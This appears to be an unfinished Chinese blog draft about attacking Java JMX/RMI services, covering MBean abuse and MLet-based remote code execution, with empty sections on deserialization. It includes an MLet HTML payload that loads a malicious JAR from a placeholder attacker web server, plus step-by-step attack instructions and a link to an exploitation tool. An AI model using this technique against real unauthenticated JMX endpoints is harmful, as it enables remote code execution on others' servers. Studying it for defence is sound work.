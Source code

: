 ```yaml
---
title: "Java JMXRMI服务的攻击与利用"
date: 2020-04-25T16:54:21+08:00
categories: [Security]
tags: [Java]
draft: true
---
```


## JMXRMI介绍

Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX最常见的应用场景，就是在Nagios、Icinga或Zabbix等集中式监控解决方案中用于监控Java应用服务器的可用性和性能。

JMX不仅能够从远程系统读取值，还可以用于调用远程系统上的方法。利用JMX，我们可以像托管bean一样来管理各种资源。托管bean（MBean）是遵循JMX标准的某些设计规则的Java Bean类。MBean可以表示设备、应用程序或需要通过JMX管理的任何资源。可以通过JMX来访问这些MBean，比如查询属性和调用Bean方法。

如果我们想要连接运行在另一台服务器上的远程实例，则必须使用JMX连接器。JMX连接器实际上就是客户端/服务器的stub对象，用于提供对远程MBean服务器的访问。这是通过经典的RPC（远程过程调用）方法实现的，旨在让开发人员可以透明地访问“远程”部件，包括用于与远程实例通信的协议。默认情况下，Java会提供基于Java RMI（远程方法调用）的远程JMX连接器。

## JMX服务的攻击方式

### Abuse MBean

如前介绍，JMX服务中可能由开发者部署了多个MBean，这些MBean的功能由开发者自行定义，如果没有授权认证，可以通过JConsole直接连接，并调用远程的MBean方法，这可能会暴露一些敏感的接口或信息。

### 基于MLet的远程代码执行攻击

2013年，Braden Thomas在"[Exploiting JMX RMI](https://www.optiv.com/blog/exploiting-jmx-rmi)"一文中首次描述了这种攻击技术。实现远程代码执行的条件是未启用JMX的认证。

MLet（management applet）可以用来通过远程URL在MBean服务器中注册一个或多个MBean。恶意的远程客户端可以创建javax.management.loading.MLet MBean，并使用它通过任意URL创建新的MBean。MLET是一个类似于HTML的文件，可以通过Web服务器提供。MLet的示例如下：

```html
<html><mletcode="de.mogwailabs.MaliciousMLet" archive="mogwailabsmlet.jar" name="Mogwailabs:name=payload" codebase="http://attackerwebserver"></mlet></html>
```

攻击者可以托管这样的MLet文件，并指示JMX服务从远程主机加载MBean。攻击过程如下所示：

1. 启动托管MLet和含有恶意MBean的JAR文件的Web服务器
2. 使用JMX在目标服务器上创建MBean javax.management.loading.MLet的实例
3. 调用MLet实例的“getMBeansFromURL”方法，将Web服务器URL作为参数进行传递。JMX服务将连接到Web服务器请求MLet文件并解析
5. JMX服务下载并归档MLet文件中引用的JAR文件，使恶意MBean可通过JMX获取
5. 攻击者最终调用来自恶意MBean的方法

> 有认证则无法调用`getMBeansFromURL`？



https://github.com/mogwailabs/mjet

### 反序列化漏洞

#### CVE-2016-3427



#### 攻击RMI协议



#### JMX/MBean级别的反序列化漏洞





---

参考资料：

[如何入侵基于RMI的JMX服务](https://nosec.org/home/detail/2544.html)

[Exploiting JMX RMI - Braden Thomas](https://www.optiv.com/blog/exploiting-jmx-rmi)